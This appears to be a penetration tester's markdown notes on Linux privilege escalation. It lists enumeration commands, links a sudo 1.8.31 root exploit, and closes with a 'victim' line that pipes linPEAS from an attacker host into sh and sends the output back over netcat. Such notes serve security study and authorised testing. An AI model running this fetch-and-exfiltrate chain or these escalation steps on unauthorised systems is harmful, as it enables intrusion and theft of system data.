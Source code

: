 ```yaml
---
title: Linux Privilege Escalation
---
```

# Enumeration

## Information Checklist
- Check current user context information with `id`
- Check sudo capabilities of user with `sudo -l`
- Check sudo version - If it is `1.8.31` use [this exploit](https://github.com/mohinparamasivam/Sudo-1.8.31-Root-Exploit)
- Check users with `/etc/passwd` or `cat /etc/passwd | cut -d':' -f1` to only get usernames
- Check hostname with `hostname`
- Check system information with `cat /etc/issue; cat /etc/*-release; uname -r; arch`
- Check running processes with `ps aux`
- Check network configuration with `ip a` or `ifconfig -a`
- Check routes with `route` or `routel`
- Check environment variables with `env`
- Check active network connections with `ss -anp` or `netstat -antup` - use `netstat -plunt` to only list listening connections
- Check for interesting strings in files recursively with `grep -Horn <text> <dir>` or   /path/to/downloaded/files`
- Check all scheduled jobs with `ls -lah /etc/cron*`
- Check users scheduled jobs with `crontab -l` or try `sudo crontab -l` if possible to show jobs run by root
- Check cron logs with `grep "CRON" /var/log/syslog`
- Check installed applications with `dpkg -l`
- Check writable folders with `find / -writable -type d 2>/dev/null`
- Check mount drives with `cat /etc/fstab` - use `mount` to list currently mounted drives
- Check available disks with `lsblk`
- Check loaded modules with `lsmod` - use `/sbin/modinfo <modulename>` to get more information on specific modules
- Check files that have `SUID` set with `find / -perm -u=s -type f 2>/dev/null` - Check [GTFOBins](https://gtfobins.github.io/)
- Check services with `systemctl --type=service --state=running`
- Check for arguments being sent to processes using `pspy`

## Inspecting User Trails
- We can try to find interesting files in the users home directory such as history-files or user-specific configurations in dotfiles like `.bashrc`
## Automated Enumeration
- We can automate enumeration using a various different tools like `linPEAS`, `linEnum` or `unix-privesc-check`
```zsh
./unix-privesc-check standard > output.txt

./linPEAS.sh | tee linresult.txt

# Excute from memory and send output back to the host
nc -lvnp 9002 | tee linpeas.out #Host
curl 10.10.14.20:8000/linpeas.sh | sh | nc 10.10.14.20 9002 #Victim
```
> [!Warning]
> Automated tools might provide false information or miss information that can be gathered by manual enumeration! Never rely on automated tools alone!
